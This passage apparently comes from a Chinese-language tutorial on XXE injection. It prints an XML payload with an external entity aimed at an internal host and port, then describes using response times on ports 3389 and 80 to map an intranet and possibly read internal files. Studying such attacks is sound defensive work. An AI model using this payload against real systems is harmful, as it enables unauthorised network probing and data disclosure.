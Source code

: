 

2. payload：

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "http://192.168.10.50:3389" >]>

<root>

<name>&xxe;</name>

</root>
```



### 5.1.3.**测试开放端口**

这里首先测试3389端口和80端口，注意看右下角的响应时间。

#### 5.1.3.1.**测试3389端口**

在测试3389端口后，页面的响应时间为29毫秒。

![img](assets/E4qQcNpKDvf932s.jpg) 

#### 5.1.3.2.**测试80端口**

可以看到，我们测试80端口，响应时间为67毫秒。当我们使用第一种payload的时候同时存在回显的话，页面中就会把80端口页面中的信息也显示出来了，这里测试的结果是不是就可以间接性读取内网中其它服务器的敏感文件？
